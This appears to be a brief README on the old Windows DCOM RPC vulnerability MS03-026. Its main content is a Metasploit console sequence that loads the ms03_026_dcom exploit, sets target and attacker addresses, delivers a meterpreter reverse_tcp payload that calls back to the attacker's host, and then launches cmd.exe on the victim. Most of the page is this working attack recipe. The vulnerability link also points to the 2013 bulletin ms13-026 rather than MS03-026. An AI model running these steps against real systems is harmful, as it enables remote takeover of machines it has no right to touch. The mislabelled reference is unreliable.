 # MS03-026

Vulnerability reference:
 * [MS03-026](https://docs.microsoft.com/en-us/security-updates/securitybulletins/2013/ms13-026)

## MSF Usage
* [YouTube-ms03 026](https://www.youtube.com/watch?v=OZwQo8kqdBM)  
```C
msf > search ms03_026
msf > use exploit/windows/dcerpc/ms03_026_dcom
msf exploit(ms03_026_dcom) > set RHOST 192.168.229.129
msf exploit(ms03_026_dcom) > set LHOST 192.168.229.35
msf exploit(ms03_026_dcom) > set PAYLOAD windows/meterpreter/reverse_tcp
msf exploit(ms03_026_dcom) > exploit

meterpreter > execute -f cmd.exe -c -1
```

## References
[Microsoft Windows DCOM RPC接口长主机名远程缓冲区溢出漏洞](http://blog.chinaunix.net/uid-286494-id-2134482.html)